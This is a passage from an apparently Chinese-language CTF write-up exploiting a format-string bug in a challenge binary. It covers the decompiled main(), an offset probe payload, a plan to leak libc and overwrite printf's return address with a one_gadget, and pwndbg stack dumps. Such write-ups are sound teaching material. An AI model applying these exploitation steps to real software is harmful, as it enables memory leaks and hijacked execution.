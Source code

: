 `checksec` 一下，除了 Canary 以外保护全开（在 IDA 里反汇编也没看到 stack_check_fail ）。 `main()` 反编译后的代码如下：

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 s[66]; // [rsp+0h] [rbp-210h] BYREF

  s[65] = __readfsqword(0x28u);
  initbuf(argc, argv, envp);
  memset(s, 0, 512);
  while ( 1 )
  {
    memset(s, 0, 0x200uLL);
    fgets((char *)s, 512, stdin);
    printf((const char *)s);
  }
}
```

自带无限次使用次数的 FSB 。打开程序，输入 `AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p` 确认格式字符串偏移，结果如下：

![image-20240728230716046.png](https://s2.loli.net/2024/07/29/uNBpfj9A6l2Q4Dv.png)

可以看到 `AAAAAAAA` 位于格式字符串后第六个偏移。

目前的想法就是，通过 `printf()` 泄漏出 `main()` 的返回地址得到 libc 地址。

但是打开了 FULL RELRO ，不能覆写 GOT 表，所以试试 ROP，利用格式字符串任意位置泄漏栈地址，然后利用任意写将 `printf()` 的返回地址设为 one_gadget。

### Leaking libc address

通过 gdb 动态调试，断点进入 `printf()` 内，在栈中寻找到 `main()` 的返回地址相对于格式字符串的偏移位置。首先来看 Backtrace ，确定 `printf()` 的返回地址为 `0x55555555528d` ，位于 `main()` 内，则 `main()` 的返回地址为 `0x7ffff7c29d90` ，而 `0x7ffff7c29e40` 相对 `__libc_start_main` 的偏移是 +128 ，所以 `__libc_start_main` 相对  `main()` 的返回地址 的偏移是 (-0xd90 + 0xe40) - 128 = +0x30 。

<pre><font color="#12488B">─────────────────────────────────[ BACKTRACE ]──────────────────────────────────</font>
 ► 0   0x7ffff7c606f0 printf
   1   0x55555555528d
   2   0x7ffff7c29d90
   3   0x7ffff7c29e40 __libc_start_main+128
   4   0x5555555550e5
<font color="#12488B">────────────────────────────────────────────────────────────────────────────────</font>
<font color="#C01C28"><b>pwndbg&gt; </b></font>
</pre>

接下来，在栈中找到 `0x7ffff7c29d90` 相对于格式字符串的偏移位置：

<pre><font color="#12488B">────────────────────────────────────────────────────────────────────────────────</font>
<font color="#C01C28"><b>pwndbg&gt; </b></font>x /100gx $rsp
<font color="#12488B">0x7fffffffd9c8</font>:	0x000055555555528d	0x7944734973696854
<font color="#12488B">0x7fffffffd9d8</font>:	0x7375446c65674e41	0x000000000a726574
<font color="#12488B">0x7fffffffd9e8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffd9f8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">< Skipped ></font>
<font color="#12488B">0x7fffffffdbc8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdbd8</font>:	0x5b70ffa5294da700	0x0000000000000001
<font color="#ff0000">0x7fffffffdbe8</font>:	0x00007ffff7c29d90	0x0000000000000000
<font color="#12488B">0x7fffffffdbf8</font>:	0x00005555555551f0	0x0000000100000000
<font color="#12488B">< Skipped ></font>
<font color="#12488B">0x7fffffffdcb8</font>:	0x00005555555550c0	0x00007fffffffdcf0
<font color="#12488B">0x7fffffffdcc8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdcd8</font>:	0x00005555555550e5	0x00007fffffffdce8
<font color="#C01C28"><b>pwndbg&gt; </b></font>
</pre>